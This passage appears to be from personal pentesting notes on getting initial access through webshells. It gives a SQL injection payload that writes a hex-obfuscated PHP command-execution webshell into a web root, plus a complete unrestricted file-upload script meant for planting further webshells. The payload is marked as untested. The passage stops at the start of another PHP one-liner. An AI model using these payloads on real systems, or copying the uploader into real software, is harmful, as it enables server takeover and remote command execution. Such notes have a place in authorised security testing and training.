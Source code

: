 - Write a webshell via `COLUMNS TERMINATED BY` SQL query.

TODO: test this SQL query

```sql
' UNION SELECT NULL, NULL INTO OUTFILE '/var/www/html/shell.php' COLUMNS TERMINATED BY 0x3c3f7068702073797374656d28245f4745545b5c27636d645c275d293b203f3e#
```

##### 2.2.5.1.2 - Uploader

You can use a file uploader that allows you to upload anything such as custom [[Pentesting Phases/Initial Access/Callback Shells/Webshells/Webshells|webshells]].

`$ cat uploader.php`

---

```php
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>File Upload</title>
    </head>
    <body>
        <h2>File Upload</h2>
        <form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="POST" enctype="multipart/form-data">
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" value="Upload" name="submit">
        </form>

        <?php
        if (isset($_POST['submit'])) {
            if (!empty($_FILES['fileToUpload']['name'])) {
                $targetDir = './'; // Upload to the same directory as the PHP script
                $targetFile = $targetDir . basename($_FILES['fileToUpload']['name']);

                if (move_uploaded_file($_FILES['fileToUpload']['tmp_name'], $targetFile)) {
                    echo "File uploaded successfully.";
                } else {
                    echo "Sorry, there was an error uploading your file.";
                }
            } else {
                echo "Please choose a file to upload.";
            }
        }
        ?>
    </body>
</html>
```

Here's a one PHP liner.
